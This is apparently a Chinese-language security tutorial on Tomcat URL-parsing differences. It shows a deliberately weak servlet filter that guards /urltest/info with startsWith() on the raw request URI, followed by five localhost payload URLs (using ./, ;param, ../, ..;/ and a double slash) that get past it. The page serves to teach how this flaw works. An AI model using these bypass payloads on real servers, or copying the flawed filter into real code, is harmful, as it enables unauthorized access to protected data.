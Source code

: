 Tomcat URL 解析差异性攻击利用
-----------------------------

看个访问限制绕过的场景。

假设Tomcat上启动的Web目录下存在一个info目录，其中有一个secret.jsp文件，其中包含敏感信息等：

    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Secret</title>
    </head>
    <body>
    username: mi1k7ea<br>
    password: 123456<br>
    address: china<br>
    phone: 13666666666<br>
    </body>
    </html>

新建一个filter包，其中新建一个testFilter类，实现Filter接口类：

    package filter;

    import javax.servlet.*;
    import javax.servlet.http.*;
    import java.io.IOException;

    public class testFilter implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest httpServletRequest = (HttpServletRequest)servletRequest;
            HttpServletResponse httpServletResponse = (HttpServletResponse)servletResponse;

            String url = httpServletRequest.getRequestURI();

            if (url.startsWith("/urltest/info")) {
                httpServletResponse.getWriter().write("No Permission.");
                return;
            }

            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

这个Filter作用是：只要访问/urltest/info目录下的资源，都需要进行权限判断，否则直接放行。可以看到，这里调用getRequestURI()函数来获取请求中的URL目录路径，然后调用startsWith()函数判断是否是访问的敏感目录，若是则返回无权限的响应。当然这里写得非常简单，只做演示用。

编辑web.xml，添加testFilter设置：

    <?xml version="1.0" encoding="UTF-8"?>
    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
             xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
             xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
             version="4.0">
        <filter>
            <filter-name>testFilter</filter-name>
            <filter-class>filter.testFilter</filter-class>
        </filter>
        <filter-mapping>
            <filter-name>testFilter</filter-name>
            <url-pattern>/*</url-pattern>
        </filter-mapping>
    </web-app>

运行之后，访问`http://localhost:8080/urltest/info/secret.jsp`，会显示无权限：

![](/Users/aresx/Documents/VulWiki/.resource/TomcatURL解析差异性攻击利用/media/rId21.png)

根据前面的分析构造如下几个payload都能成功绕过认证限制来访问：

    http://localhost:8080/urltest/./info/secret.jsp
    http://localhost:8080/urltest/;mi1k7ea/info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/../info/secret.jsp
    http://localhost:8080/urltest/mi1k7ea/..;/info/secret.jsp
    http://localhost:8080//urltest/info/secret.jsp

![](/Users/aresx/Documents/VulWiki/.resource/TomcatURL解析差异性攻击利用/media/rId22.png)

整个的过程大致如此，就是利用解析的差异性来绕过认证

